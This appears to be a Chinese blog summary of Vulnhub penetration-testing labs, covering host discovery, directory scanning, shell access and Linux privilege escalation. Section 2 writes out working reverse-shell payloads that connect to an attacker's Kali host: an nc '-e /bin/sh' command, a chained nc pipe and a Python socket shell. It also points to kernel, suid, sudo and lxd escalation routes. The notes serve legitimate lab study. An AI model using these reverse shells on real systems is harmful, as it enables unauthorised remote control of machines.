 ```yaml
---
title: Conclusion1_Chapter1~5
categories:
- Network_Security
- Vulnhub
- Conclusion
tags:
- Network_Security
- Vulnhub
---
```


# 总结（Chapter 1-5）

## 1. 外围探测与扫描

### 1.1 主机发现

1. arp-scan，基于 arp

2. arping
    虽然它是 Linux 发行版常见的工具，但注意其并不支持网段的扫描，需要结合 Shell 脚本语言使用，例子：

    ```bash
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

3. netdiscover，也是基于 arp 的工具，实际使用时，掩码需要 -8：
    `sudo netdiscover -r 网段/实际掩码 - 8`

4. nmap

### 1.2 目录扫描

1. dirsearch 轻量级。
2. feroxbuster 结合 seclists 来进行大规模的目录扫描。

## 2. Shell 的获取

### 2.1 通过 NC

1. 查看是否有 NC：`which nc`。
2. 高版本 NC 反弹 Shell：
    `nc kali-ip kali-端口 -e /bin/sh`
3. 低版本 NC 串联：
    `nc kali-ip kali-端口-1 | /bin/bash | /bin/nc kali-ip kali-端口-2 # nc 串联，使用 | 将结果向后传递。`

### 2.2 通过其他途径

1. python：
    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('kali-ip', kali-端口))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(['/bin/sh','-i'])
    ```

    如果是命令，就需要 `python -c "上述代码"`。注意单双引号。

2. 修改源代码，上线 WebShell 工具。

### 2.3 交互性的增加

1. 初步增加：
    `python -c "import pty; pty.spawn('/bin/bash')"`

2. 完全的即时交互：

    > https://www.endlessshw.top/2024/01/23/Network_Security/Vulnhub_Journey/Chapter4_Medium_AdmX_New/Chapter4_Medium_AdmX_New/#1-2-%E6%8B%BF%E5%88%B0-Shell-%E4%B8%8E-Shell-%E4%BF%9D%E6%8C%81

## 3. 提权

### 3.1 内核提权

1. 查看内核相关信息：
    ```bash
    uname -a # 查看内核
    lsb_release -a # 查看 OS 版本
    ```

2. `search Linux 版本` 寻找 EXP。

3. CVE-2021-3493

### 3.2 suid 提权

1. 先找权限是 S 的文件。
2. 查看其文件，分析源代码，尝试构造出提权命令。

### 3.3 sudo 提权

1. 先从常见的工具入手，是否可以 sudo 提权

2. `sudo -l` 查看当前用户可以通过 `sudo` 使用的命令和工具，通过具体的工具和命令进行提权：

    > https://ihsansencan.github.io/privilege-escalation/linux/binaries/
    >
    > https://haiclover.github.io/gtfobins/node/
    >
    > 学会使用谷歌，好多东西中文互联网未必搜得到。

### 3.4 其他较为通用的提权方式

1. lxd 提权
2. MySQL UDF 提权

## 4. 一些杂项和思想

1. Burpsuite 可以一次性修改发送包和接受包的某些内容（通过正则匹配）。
2. cyberchef 工具用于加解密。
3. 密码交叉复用的思想！
4. Venom 内网穿透工具。
5. PWN 要学，GDB 调试工具的使用，Python 的 `struct` 包。
6. exp 要学会查看，视具体报错情况还得修改。
7. docker 容器的判断。